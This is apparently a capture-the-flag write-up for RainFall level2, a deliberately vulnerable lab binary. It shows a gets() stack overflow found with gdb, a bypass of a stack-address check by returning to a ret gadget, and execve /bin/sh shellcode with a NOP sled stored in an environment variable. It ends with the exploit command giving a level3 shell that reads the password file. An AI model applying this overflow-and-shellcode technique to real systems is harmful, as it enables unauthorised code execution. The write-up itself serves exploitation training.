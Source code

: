 Like in level1, there is a call to `gets()`, we have to find the buffer size.

In `p()` we can see :
```
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```
eax value is at address `ebp-0x4c`, and `seip` is by convention at `ebp+0x04` so we do the maths :
```
>>> 0x04 - (-0x4c)
80
```
The buffer size is `80`
```
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 80 + 'BBBB'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)  info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```
Those two lines after the call to `gets()` are showing a protection against a stack injection, no nop sleds is possible.
```
0x080484fb      and eax, 0xb0000000
0x08048500      cmp eax, 0xb0000000
```
For example, if we try to target an address after the `gets()` like `ret => 0x0804853e` and then go 4 bytes after the original EIP address `info frame` to target the NOP `0xbffff71c + 4 = 0xbffff720`, the program calls `exit`.

If we put our shellcode in an environment variable, we be sure that it's not alterated with the buffer.

take a shellcode:
http://shell-storm.org/shellcode/files/shellcode-827.php

```
export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
the NOP are added to optimize the chance that the ret address points to it so the SHELLCODE will be executed.

Get SHELLCODE var address with exploit then
```
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + [shellcode address] " & cat) | ./level2
whoami
level3
cat /home/user/level3/.pass
```